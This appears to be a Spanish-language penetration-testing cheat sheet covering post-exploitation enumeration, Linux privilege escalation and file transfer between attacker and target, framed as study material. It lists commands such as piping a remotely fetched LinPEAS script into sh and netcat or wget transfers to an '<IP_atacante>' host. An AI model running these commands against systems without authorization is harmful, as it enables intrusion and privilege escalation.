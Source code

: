 
## 🚀 FASE 4: POST-EXPLOTACIÓN

### 4.1 Reconocimiento Post-Explotación (Enumeración Interna)

| Técnica | ⭐ Comando Esencial | Propósito Académico |
| :--- | :--- | :--- |
| **Verificación de Identidad** | `whoami && id` | **Lo primero siempre.** Confirma con qué usuario y con qué privilegios estás en el sistema. |
| **Información del Sistema** | `uname -a` | Fingerprinting completo del sistema operativo y kernel. |
| **Procesos Activos** | `ps aux` | Análisis de todos los procesos en ejecución, sus dueños y posibles servicios interesantes. |
| **Conexiones de Red** | `ss -tuln` o `netstat -tuln` | Mapear las comunicaciones y servicios que corren localmente en la máquina comprometida. |

### 4.2 Escalación de Privilegios

| Técnica | ⭐ Comando Esencial | Propósito Académico |
| :--- | :--- | :--- |
| **Permisos Sudo** | `sudo -l` | **La vía más común.** Revisa si tu usuario puede ejecutar comandos como root. |
| **Binarios SUID** | `find / -perm -u=s -type f 2>/dev/null` | Localiza binarios que se ejecutan con los permisos del dueño (potencialmente root). |
| **Tareas Programadas (Cron)** | `cat /etc/crontab` | Revisa si hay tareas programadas que puedas modificar o que se ejecuten con privilegios elevados. |
| **Vulnerabilidades del Kernel** | `uname -r` (y luego `searchsploit`) | Busca exploits específicos para la versión del kernel del sistema. Es una opción más ruidosa y riesgosa. |
| **Scripts Automatizados** | `curl -L <URL_linpeas.sh> | sh` | LinPEAS/LinEnum son scripts que automatizan la búsqueda de todos estos vectores. |

---

## 🌐 FASE 5: METODOLOGÍA DE TRANSFERENCIA DE ARCHIVOS

### 5.1 Transferencia desde Atacante hacia Objetivo

| Método | ⭐ Comando Esencial (Atacante) | Comando Objetivo |
| :--- | :--- | :--- |
| **Servidor HTTP Python** | `python3 -m http.server 80` | `wget http://<IP_atacante>/<archivo>` o `curl -O ...` |
| **Netcat** | `nc -lvnp 1234 < <archivo>` | `nc <IP_atacante> 1234 > <archivo>` |
| **SCP (SSH)** | `scp <archivo> usuario@<IP_objetivo>:/tmp/` | (No se necesita comando en objetivo) |

---
*Esta guía ha sido actualizada para mantener el contenido detallado del original, destacando los comandos más comunes y añadiendo las secciones solicitadas para una experiencia de aprendizaje más completa.*
